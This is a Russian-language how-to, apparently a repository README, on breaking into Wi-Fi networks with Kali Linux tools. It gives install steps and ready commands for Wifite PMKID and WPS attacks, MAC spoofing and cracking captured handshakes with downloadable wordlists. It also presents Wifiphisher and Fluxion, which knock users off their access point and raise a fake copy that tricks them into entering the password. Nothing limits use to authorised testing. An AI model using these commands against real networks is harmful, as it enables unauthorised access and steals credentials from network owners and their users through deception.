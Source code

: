 # Wifite

Wififte предустановлен в Kali Linux, однако, есть не установленные зависмости.

Доустановка зависимостей для Wifite:

	#---------------------------------- Pyrit -------------------------------------------
	sudo apt-get install -y python3-scapy libssl-dev zlib1g-dev libpcap0.8-dev python2-dev
	cd ~/Загрузки && sudo wget -c https://github.com/JPaulMora/Pyrit/archive/v0.5.0.tar.gz
	sudo tar -xf v0.5.0.tar.gz && cd Pyrit-0.5.0 && sudo sed -i "s/COMPILE_AESNI/NO_COMPILE_AESNI/" cpyrit/_cpyrit_cpu.c
	sudo python2 setup.py build 
	sudo python2 setup.py install
	#--------------------------------------------------------------------------------------
	sudo apt-get install -y hashcat
	sudo apt-get install -y hcxtools
	sudo apt-get install -y hcxdumptool 
	sudo apt-get install -y bully
	sudo apt-get install -y macchanger


Установить сам Wifite:

	sudo apt-get install -y wifite
	
Чтобы запустить атаку с заданым временем для PMKID: 

	sudo wifite --pmkid-timeout 30 --random-mac --kill 

Если хотите запустить атаку со своим словарем, то добавьте --dict ~/dict/WPS_Pins.txt - путь до словаря, я использую WPS пин-коды

Чтобы запустить атаку на заданном сетевом интерфейсе добавьте параметр i, например:

	-i wlan0
	
Запустить атаку на WPS:

	sudo wifite --wps-only --bully --ignore-lock --random-mac
	
Запустить взлом перехваченного рукопожатия (Handshake):

	sudo wifite --crack --dict ~/dict/8digitBack.txt --all

*Путь до словаря паролей

**Cловари можно скачать [здесь](https://disk.yandex.ru/d/v4Lbt1p47K8bIw)**


Перезапустить сетевой интерфейс после использования Wifite:

	sudo airmon-ng stop wlan0mon 
	
*Название интерфейса может отличаться.
	

# Wifiphisher 

Для атаки, в которой играет немалую роль социальная инженерия, есть инструмент под названием Wifiphisher. Он деаутентифицирует подключенных пользователей целевой точи доступа и поднимает ее фальшивую копию без пароля. Пользователи, думая что что-то не так с роутером, подключаются с фальшивой точке (к настоящей они не могут подключиться из-за работы нашей программы) и, якобы для обновления прошивки, точка их просит ввести пароль. После ввода пароль приходит нам.
 

**Установка:** 

	sudo apt-get install wifiphisher

**Использование**

	sudo wifiphisher

	

# FLUXION 


Данный инструмент похож на предыдущий, но он более продвинутый. Есть поддержка русского языка. 

Сначала Fluxion захватывает рукопожатие, достает из него хэш пароля, а затем делает всё тоже самое что и wifiphisher, только если пользователь введет верный пароль, Fluxion свернет поддельную точку доступа и атака завершится успехом. Для него лучше иметь дополнительный wifi-адаптер.

**Установка:**

	git clone https://github.com/FluxionNetwork/fluxion && cd fluxion/ && sudo ./fluxion.sh

**Использование:**

	sudo ./fluxion.sh

